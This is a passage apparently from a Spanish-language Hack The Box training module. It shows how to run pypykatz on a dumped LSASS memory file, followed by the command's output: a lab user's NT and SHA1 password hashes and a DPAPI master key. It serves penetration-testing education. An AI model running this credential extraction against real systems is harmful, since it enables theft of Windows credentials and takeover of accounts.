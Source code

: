#### Corriendo Pypykatz

El comando inicia el uso de `pypykatz`para analizar los secretos ocultos en el volcado de memoria del proceso LSASS. Usamos `lsa`en el comando porque LSASS es un subsistema de `Local Security Authority`. A continuación, especificamos la fuente de datos como un `minidump`archivo, seguido de la ruta al archivo de volcado almacenado en nuestro host de ataque. Pypykatz analiza el archivo de volcado y genera los resultados:

```shell-session
Polika4RM@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 

INFO:root:Parsing file /home/peter/Documents/lsass.dmp
FILE: ======== /home/peter/Documents/lsass.dmp =======
== LogonSession ==
authentication_id 1354633 (14ab89)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605

== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
```